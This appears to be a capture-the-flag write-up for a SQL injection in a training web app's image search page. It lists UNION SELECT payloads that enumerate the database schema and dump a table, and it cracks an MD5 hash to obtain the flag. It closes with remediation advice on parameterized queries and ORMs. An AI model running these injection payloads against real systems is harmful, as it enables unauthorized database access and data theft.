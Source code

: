 # Get the flag
Page: `/index.php?page=searchimg`

Same technique as *04_sql_injection_member*. Then only difference is that we can not produce an error message. But as we know since the 04 vulnerability, the web app use mysql so we can presume that what works on 04 will work here too :

1. Retrieve databases
`1 AND 1=0 UNION SELECT 1, DATABASE()`
=> *Member_images*

2. Retrieve tables
`1 AND 1=0 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=DATABASE()`
=> *list_images*

3. Retrieve columns 
`1 AND 1=0 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema=DATABASE()`
=> *id, title, url, comment*

4. Getting all informations about a image
`1 AND 1=0 UNION SELECT id, concat(title, url, comment) FROM list_images`
=> *If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46*

So if we decrypt it with https://hashtoolkit.com/ we get : albatroz which is already in lower char, then we need to hash it with sha256.

# Security issue
Same as *04_sql_injection_member*, an attacker can retrieve DB informations.

# Fix it
1. Use parameterized statements to specify what you're going to receive (you can add regexp, typechecking etc...)
2. Use an ORM (they usually use parameterized statements)
3. Keep your database server up-to-date (as your ORM)